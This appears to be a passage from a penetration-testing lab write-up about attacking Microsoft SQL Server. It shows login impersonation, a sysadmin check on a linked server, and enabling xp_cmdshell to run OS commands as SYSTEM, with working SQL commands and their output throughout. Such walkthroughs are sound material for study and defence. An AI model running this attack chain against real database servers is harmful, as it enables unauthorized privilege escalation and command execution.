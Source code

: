 So the 'LOCAL.TEST.LINKED.SRV' is a linked server and let's see if attempting to run a query remotely will work however, considering the 'impersonation' mentioned in the previous file, let's check which users we can impersonate.

```
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> go

        john                                                                       

        simon                                                                        
```

Impersonating john user

```
1> EXECUTE AS LOGIN = 'john'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> go
```

It worked. Now let's verify if John is a sysadmin on that linked server.

{% code fullWidth="true" %}
```
1> select * from openquery("LOCAL.TEST.LINKED.SRV", 'SELECT is_srvrolemember(''sysadmin'')')
```
{% endcode %}

It displayed a '1' value indicating that the John user has the 'sysadmin' role. Now let's execute SQL queries on that linked server.

{% code fullWidth="true" %}
```
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
2> go
```
{% endcode %}

and now i executed "whoami" using "xp\_cmdshell"

{% code fullWidth="true" %}
```
1> EXECUTE('xp_cmdshell ''whoami''') AT [LOCAL.TEST.LINKED.SRV];
2> go
```
{% endcode %}

so we need to enable first "xp\_cmdshell" to be able to use it and execute `whoami` again

{% code fullWidth="true" %}
```
1> EXECUTE('
2>  EXEC sp_configure ''show advanced options'', 1;
3>  RECONFIGURE;
4>  EXEC sp_configure ''xp_cmdshell'', 1;
5>  RECONFIGURE;
6>  EXEC xp_cmdshell ''whoami''
7> ') AT [LOCAL.TEST.LINKED.SRV];
8> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.

        nt authority\system                                                        
```